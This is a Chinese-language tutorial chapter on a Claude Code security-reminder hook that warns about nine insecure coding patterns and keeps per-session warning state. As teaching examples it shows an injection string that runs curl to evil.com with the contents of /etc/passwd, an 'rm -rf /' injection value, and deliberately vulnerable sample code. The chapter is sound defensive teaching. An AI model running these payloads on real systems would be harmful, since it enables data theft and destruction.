


# 第 6 章：security-guidance - 安全检查 Hook

## 本章导读

**仓库路径**：`plugins/security-guidance/`

**系统职责**：
- 检测 9 种安全模式（SQL 注入/XSS/命令注入等）
- 在 PreToolUse 阶段提醒用户
- 维护会话隔离状态

**能学到什么**：
- 如何设计安全检查规则（正则 + 上下文分析）
- Hook 的状态管理（会话级变量）
- 安全提醒的用户体验设计

---

## 6.1 安全检查的必要性

### 常见安全漏洞

**OWASP Top 10（2021）**：
1. Broken Access Control
2. Cryptographic Failures
3. **Injection** ⚠️
4. Insecure Design
5. Security Misconfiguration
6. Vulnerable Components
7. Authentication Failures
8. Software and Data Integrity Failures
9. Security Logging Failures
10. Server-Side Request Forgery

**security-guidance 关注的漏洞**：
- **命令注入**（Command Injection）
- **XSS**（Cross-Site Scripting）
- **代码注入**（Code Injection）
- **反序列化漏洞**（Deserialization）

---

### 为什么需要自动检查？

**场景 1：GitHub Actions 注入**
```yaml
# ❌ 危险：直接使用 issue 标题
name: Process Issue
on: issues
jobs:
  process:
    runs-on: ubuntu-latest
    steps:
      - run: echo "${{ github.event.issue.title }}"
```

**攻击方式**：
```
Issue 标题："; curl http://evil.com/steal?data=$(cat /etc/passwd) #
```

**结果**：执行任意命令，泄露敏感数据。

---

**场景 2：child_process.exec 注入**
```javascript
// ❌ 危险：直接拼接用户输入
const { exec } = require('child_process');
exec(`git log --author="${userInput}"`);
```

**攻击方式**：
```
userInput: "; rm -rf / #
```

**结果**：删除整个文件系统。

---

**场景 3：React XSS**
```jsx
// ❌ 危险：直接设置 HTML
<div dangerouslySetInnerHTML={{ __html: userComment }} />
```

**攻击方式**：
```
userComment: ""
```

**结果**：窃取用户 Cookie。

---

### security-guidance 的解决方案

**自动检测 + 实时提醒**：
```
⚠️ Security Warning: Using child_process.exec() can lead to
command injection vulnerabilities.

This codebase provides a safer alternative: src/utils/execFileNoThrow.ts
```

**优势**：
- 实时检测：在代码写入前提醒
- 零配置：自动启用
- 教育性：提供安全替代方案
- 非阻塞：只警告，不阻止

---

## 6.2 九种安全模式

### 6.2.1 GitHub Actions Workflow 注入

**检测条件**：
```python
{
    "ruleName": "github_actions_workflow",
    "path_check": lambda path: ".github/workflows/" in path
        and (path.endswith(".yml") or path.endswith(".yaml")),
    "reminder": "..."
}
```

**高风险输入**：
- `github.event.issue.title/body`
- `github.event.pull_request.title/body`
- `github.event.comment.body`
- `github.event.commits.*.message`
- `github.event.head_commit.author.email/name`
- `github.head_ref`

**安全模式**：
```yaml
# ✅ 安全：使用环境变量
env:
  TITLE: ${{ github.event.issue.title }}
run: echo "$TITLE"
```

**参考**：[GitHub Blog - Workflow Injection](https://github.blog/security/vulnerability-research/how-to-catch-github-actions-workflow-injections-before-attackers-do/)

---

### 6.2.2 child_process.exec 注入

**检测子串**：
```python
{
    "ruleName": "child_process_exec",
    "substrings": ["child_process.exec", "exec(", "execSync("],
    "reminder": "..."
}
```

**危险示例**：
```javascript
const { exec } = require('child_process');
exec(`command ${userInput}`);  // ❌ 命令注入
```

**安全替代**：
```javascript
import { execFileNoThrow } from '../utils/execFileNoThrow.js';
await execFileNoThrow('command', [userInput]);  // ✅ 安全
```

**execFileNoThrow 优势**：
- 使用 `execFile` 而非 `exec`（防止 shell 注入）
- 自动处理 Windows 兼容性
- 结构化输出（stdout/stderr/status）

---

### 6.2.3 new Function() 注入

**检测子串**：
```python
{
    "ruleName": "new_function_injection",
    "substrings": ["new Function"],
    "reminder": "..."
}
```

**危险示例**：
```javascript
const fn = new Function('x', userCode);  // ❌ 代码注入
fn(42);
```

**安全替代**：
- 使用 JSON 数据而非代码
- 使用配置对象而非动态函数
- 仅在真正需要时使用

---

### 6.2.4 eval() 注入

**检测子串**：
```python
{
    "ruleName": "eval_injection",
    "substrings": ["eval("],
    "reminder": "..."
}
```

**危险示例**：
```javascript
eval(userInput);  // ❌ 任意代码执行
```

**安全替代**：
```javascript
JSON.parse(userInput);  // ✅ 仅解析数据
```

---

### 6.2.5 React dangerouslySetInnerHTML XSS

**检测子串**：
```python
{
    "ruleName": "react_dangerously_set_html",
    "substrings": ["dangerouslySetInnerHTML"],
    "reminder": "..."
}
```

**危险示例**：
```jsx
<div dangerouslySetInnerHTML={{ __html: userComment }} />  // ❌ XSS
```

**安全替代**：
```jsx
import DOMPurify from 'dompurify';
<div dangerouslySetInnerHTML={{
  __html: DOMPurify.sanitize(userComment)
}} />  // ✅ 清理后安全
```

---

### 6.2.6 document.write XSS

**检测子串**：
```python
{
    "ruleName": "document_write_xss",
    "substrings": ["document.write"],
    "reminder": "..."
}
```

**危险示例**：
```javascript
document.write(userInput);  // ❌ XSS + 性能问题
```

**安全替代**：
```javascript
const div = document.createElement('div');
div.textContent = userInput;
document.body.appendChild(div);  // ✅ 安全
```

---

### 6.2.7 innerHTML XSS

**检测子串**：
```python
{
    "ruleName": "innerHTML_xss",
    "substrings": [".innerHTML =", ".innerHTML="],
    "reminder": "..."
}
```

**危险示例**：
```javascript
element.innerHTML = userInput;  // ❌ XSS
```

**安全替代**：
```javascript
// 纯文本
element.textContent = userInput;  // ✅ 安全

// HTML 内容
import DOMPurify from 'dompurify';
element.innerHTML = DOMPurify.sanitize(userInput);  // ✅ 清理后安全
```

---

### 6.2.8 pickle 反序列化

**检测子串**：
```python
{
    "ruleName": "pickle_deserialization",
    "substrings": ["pickle"],
    "reminder": "..."
}
```

**危险示例**：
```python
import pickle
data = pickle.loads(user_data)  # ❌ 任意代码执行
```

**安全替代**：
```python
import json
data = json.loads(user_data)  # ✅ 仅解析数据
```

---

### 6.2.9 os.system 注入

**检测子串**：
```python
{
    "ruleName": "os_system_injection",
    "substrings": ["os.system", "from os import system"],
    "reminder": "..."
}
```

**危险示例**：
```python
import os
os.system(f"command {user_input}")  # ❌ 命令注入
```

**安全替代**：
```python
import subprocess
subprocess.run(['command', user_input])  # ✅ 安全
```

---

## 6.3 Hook 实现

### 6.3.1 核心数据结构

**安全模式定义**：
```python
SECURITY_PATTERNS = [
    {
        "ruleName": "github_actions_workflow",
        "path_check": lambda path: ".github/workflows/" in path
            and (path.endswith(".yml") or path.endswith(".yaml")),
        "reminder": "..."
    },
    {
        "ruleName": "child_process_exec",
        "substrings": ["child_process.exec", "exec(", "execSync("],
        "reminder": "..."
    },
    # ... 其他 7 种模式
]
```

**两种检测方式**：
1. **路径检查**（`path_check`）：基于文件路径
2. **内容检查**（`substrings`）：基于文件内容

---

### 6.3.2 模式匹配逻辑

```python
def check_patterns(file_path, content):
    """检查文件路径或内容是否匹配安全模式"""
    # 规范化路径（移除前导斜杠）
    normalized_path = file_path.lstrip("/")

    for pattern in SECURITY_PATTERNS:
        # 1. 检查路径模式
        if "path_check" in pattern and pattern["path_check"](normalized_path):
            return pattern["ruleName"], pattern["reminder"]

        # 2. 检查内容模式
        if "substrings" in pattern and content:
            for substring in pattern["substrings"]:
                if substring in content:
                    return pattern["ruleName"], pattern["reminder"]

    return None, None
```

**执行流程**：


---

### 6.3.3 状态管理

**为什么需要状态？**

避免重复警告：
```
# 第一次编辑 auth.js
⚠️ Security Warning: Using child_process.exec()...

# 第二次编辑 auth.js（同一会话）
（不显示警告）

# 新会话编辑 auth.js
⚠️ Security Warning: Using child_process.exec()...
```

**状态文件**：
```bash
~/.claude/security_warnings_state_{session_id}.json
```

**格式**：
```json
[
  "/path/to/file-ruleName",
  "/another/file-anotherRule"
]
```

**状态键格式**：`{file_path}-{ruleName}`

---

**状态加载**：
```python
def load_state(session_id):
    """加载已显示的警告状态"""
    state_file = get_state_file(session_id)
    if os.path.exists(state_file):
        try:
            with open(state_file, "r") as f:
                return set(json.load(f))
        except (json.JSONDecodeError, IOError):
            return set()
    return set()
```

**状态保存**：
```python
def save_state(session_id, shown_warnings):
    """保存已显示的警告状态"""
    state_file = get_state_file(session_id)
    try:
        os.makedirs(os.path.dirname(state_file), exist_ok=True)
        with open(state_file, "w") as f:
            json.dump(list(shown_warnings), f)
    except IOError as e:
        debug_log(f"Failed to save state file: {e}")
        pass  # 静默失败
```

---

### 6.3.4 自动清理

**清理策略**：
- 10% 概率触发清理
- 删除 30 天前的状态文件

```python
def cleanup_old_state_files():
    """删除 30 天前的状态文件"""
    try:
        state_dir = os.path.expanduser("~/.claude")
        if not os.path.exists(state_dir):
            return

        current_time = datetime.now().timestamp()
        thirty_days_ago = current_time - (30 * 24 * 60 * 60)

        for filename in os.listdir(state_dir):
            if filename.startswith("security_warnings_state_"):
                file_path = os.path.join(state_dir, filename)
                try:
                    file_mtime = os.path.getmtime(file_path)
                    if file_mtime < thirty_days_ago:
                        os.remove(file_path)
                except (OSError, IOError):
                    pass  # 忽略单个文件的清理错误
    except Exception:
        pass  # 静默忽略清理错误
```

**为什么 10% 概率？**
- 避免每次都执行（性能）
- 最终一致性（30 天内会被清理）
- 简单有效

---

### 6.3.5 Hook 执行流程



---

## 6.4 错误处理与调试

### 6.4.1 优雅降级

**设计原则**：Hook 错误不应阻止用户操作。

**错误场景**：
1. JSON 解析失败
2. 状态文件读写失败
3. 日志写入失败

**处理方式**：
```python
try:
    # 主逻辑
    input_data = json.load(sys.stdin)
    # ...
except json.JSONDecodeError as e:
    debug_log(f"JSON parse error: {e}")
    sys.exit(0)  # 允许操作
except Exception as e:
    debug_log(f"Unexpected error: {e}")
    sys.exit(0)  # 允许操作
```

**为什么始终退出 0？**

**Linus 式思考**：
> "安全检查是辅助功能，不是核心功能。如果检查失败，用户应该能继续工作，而不是被卡住。"

---

### 6.4.2 调试日志

**日志文件**：`/tmp/security-warnings-log.txt`

**日志内容**：
```
[2026-03-13 10:30:45.123] JSON parse error: Expecting value: line 1 column 1 (char 0)
[2026-03-13 10:31:20.456] Failed to save state file: [Errno 13] Permission denied
```

**日志函数**：
```python
def debug_log(message):
    """追加调试消息到日志文件"""
    try:
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
        with open(DEBUG_LOG_FILE, "a") as f:
            f.write(f"[{timestamp}] {message}\n")
    except Exception:
        pass  # 静默忽略日志错误
```

**为什么静默失败？**
- 日志是调试工具，不是核心功能
- 日志失败不应影响 Hook 执行
- 避免级联错误

---

## 6.5 配置与控制

### 6.5.1 环境变量

**禁用安全提醒**：
```bash
export ENABLE_SECURITY_REMINDER=0
claude
```

**检查逻辑**：
```python
if os.environ.get("ENABLE_SECURITY_REMINDER", "1") == "0":
    sys.exit(0)  # 直接退出，不检查
```

---

### 6.5.2 Hook 配置

**文件**：`hooks/hooks.json`

```json
{
  "hooks": {
    "PreToolUse": [
      {
        "hooks": [
          {
            "type": "command",
            "command": "python3 ${CLAUDE_PLUGIN_ROOT}/hooks/security_reminder_hook.py"
          }
        ],
        "matcher": "Edit|Write|MultiEdit"
      }
    ]
  }
}
```

**关键字段**：
- `PreToolUse` - Hook 类型
- `matcher` - 工具匹配器（Edit/Write/MultiEdit）
- `command` - 执行命令

---

## 6.6 实践：测试安全检查

### 任务 1：GitHub Actions 注入检测

**创建文件**：`.github/workflows/test.yml`

```yaml
name: Test Workflow
on: issues
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - run: echo "${{ github.event.issue.title }}"
```

**预期输出**：
```
⚠️ Security Warning: You are editing a GitHub Actions workflow file.

Be aware of these security risks:
1. Command Injection: Never use untrusted input directly in run: commands
2. Use environment variables: Instead of ${{ github.event.issue.title }}, use env:

Example of SAFE pattern:
env:
  TITLE: ${{ github.event.issue.title }}
run: echo "$TITLE"
```

---

### 任务 2：child_process.exec 检测

**创建文件**：`src/utils.js`

```javascript
const { exec } = require('child_process');

function runCommand(userInput) {
  exec(`git log --author="${userInput}"`);
}
```

**预期输出**：
```
⚠️ Security Warning: Using child_process.exec() can lead to
command injection vulnerabilities.

This codebase provides a safer alternative: src/utils/execFileNoThrow.ts

Instead of:
  exec(`command ${userInput}`)

Use:
  import { execFileNoThrow } from '../utils/execFileNoThrow.js'
  await execFileNoThrow('command', [userInput])
```

---

### 任务 3：React XSS 检测

**创建文件**：`src/Comment.jsx`

```jsx
function Comment({ userComment }) {
  return (
    <div dangerouslySetInnerHTML={{ __html: userComment }} />
  );
}
```

**预期输出**：
```
⚠️ Security Warning: dangerouslySetInnerHTML can lead to XSS
vulnerabilities if used with untrusted content.

Ensure all content is properly sanitized using an HTML sanitizer
library like DOMPurify, or use safe alternatives.
```

---

### 任务 4：验证状态管理

**步骤 1**：编辑 `src/utils.js`（包含 `exec(`）
```
⚠️ Security Warning: Using child_process.exec()...
```

**步骤 2**：再次编辑 `src/utils.js`（同一会话）
```
（无警告）
```

**步骤 3**：编辑 `src/api.js`（包含 `exec(`）
```
⚠️ Security Warning: Using child_process.exec()...
```

**步骤 4**：重启 Claude Code，编辑 `src/utils.js`
```
⚠️ Security Warning: Using child_process.exec()...
（新会话，重新警告）
```

---

## 6.7 架构洞察

### 洞察 1：检测 vs 阻止

**为什么只警告，不阻止？**

**选项 1：阻止执行**
```python
if matches_security_pattern:
    print("⚠️ Security Warning: ...")
    sys.exit(2)  # 阻止执行
```

**选项 2：只警告**
```python
if matches_security_pattern:
    print("⚠️ Security Warning: ...")
    sys.exit(0)  # 允许执行
```

**Linus 式思考**：
> "工具应该帮助用户，而不是阻碍用户。有时候用户知道自己在做什么，强制阻止会让他们无法工作。"

**权衡**：
- **阻止**：更安全，但可能误报
- **警告**：更灵活，用户自己决定

**security-guidance 选择警告**：
- 教育性：提供安全替代方案
- 灵活性：用户可以选择忽略
- 非侵入性：不打断工作流

---

### 洞察 2：会话隔离的价值

**为什么需要会话隔离？**

**场景**：
```
会话 A：编辑 auth.js（警告）
会话 B：编辑 auth.js（应该再次警告）
```

**如果共享状态**：
```
会话 A：编辑 auth.js（警告）
会话 B：编辑 auth.js（不警告）← 错误！
```

**Linus 式思考**：
> "会话是独立的。不同会话的用户可能是不同的人，或者同一个人但忘记了之前的警告。"

**实现**：
```python
state_file = f"~/.claude/security_warnings_state_{session_id}.json"
```

**优势**：
- 每个会话独立
- 不会遗漏警告
- 符合用户预期

---

### 洞察 3：10% 清理概率

**为什么不是 100%？**

**选项 1：每次都清理**
```python
cleanup_old_state_files()  # 每次执行
```

**选项 2：10% 概率清理**
```python
if random.random() < 0.1:
    cleanup_old_state_files()
```

**Linus 式思考**：
> "清理是维护任务，不是核心任务。每次都清理浪费性能。10% 概率足够了，最终会被清理。"

**性能对比**：
```
每次清理：100 次执行 = 100 次清理（浪费）
10% 清理：100 次执行 = 10 次清理（足够）
```

**权衡**：
- 性能：减少 90% 的清理开销
- 有效性：30 天内会被清理（最终一致性）
- 简单性：无需复杂的调度机制

---

## 6.8 小结

### 核心要点

1. **九种安全模式**：
   - GitHub Actions 注入
   - child_process.exec 注入
   - new Function() 注入
   - eval() 注入
   - React XSS（dangerouslySetInnerHTML）
   - document.write XSS
   - innerHTML XSS
   - pickle 反序列化
   - os.system 注入

2. **PreToolUse Hook**：
   - 拦截 Edit/Write/MultiEdit 工具
   - 检查路径和内容
   - 显示警告但允许执行

3. **状态管理**：
   - 会话隔离（基于 session_id）
   - 避免重复警告
   - 自动清理（10% 概率，30 天）

4. **优雅降级**：
   - Hook 错误不阻止用户操作
   - 始终退出 0
   - 静默失败

### 与其他章节的关联

- **第 2 章**：理解了 Hook 的概念，现在看到安全检查的实现
- **第 3 章**：理解了安全策略，security-guidance 是具体实现
- **第 4 章**：hookify 是规则引擎，security-guidance 是安全检查
- **第 18 章**：深入研究安全策略与沙箱设计

### 延伸阅读

- [plugins/security-guidance/CLAUDE.md](/plugins/security-guidance/CLAUDE) - security-guidance 文档
- [OWASP Top 10](https://owasp.org/www-project-top-ten/) - 安全漏洞排行
- [GitHub Actions Security](https://github.blog/security/vulnerability-research/how-to-catch-github-actions-workflow-injections-before-attackers-do/) - 工作流注入

---

## 🎉 恭喜！入门线完成

你已经完成了**入门线**（第 1-6 章）的学习！

**学习成果**：
- ✅ 理解 Claude Code 的整体架构
- ✅ 掌握插件系统的四大组件
- ✅ 了解三种安全策略
- ✅ 学会规则引擎的实现（hookify）
- ✅ 掌握 Git 工作流自动化（commit-commands）
- ✅ 理解安全检查的实现（security-guidance）

**下一步**：
- [🟡 实战线](/docs/guide/learning-paths#实战路径) - 学习复杂插件的实现
- [🔴 进阶线](/docs/guide/learning-paths#进阶路径) - 研究自动化架构
- [🛠️ 插件开发路径](/docs/guide/learning-paths#插件开发路径) - 开发自己的插件

---

## 下一章

[第 7 章：code-review - 多 Agent 协作审查](/docs/part3/chapter07) - 学习多 Agent 协作的编排模式，理解验证子 Agent 的机制。
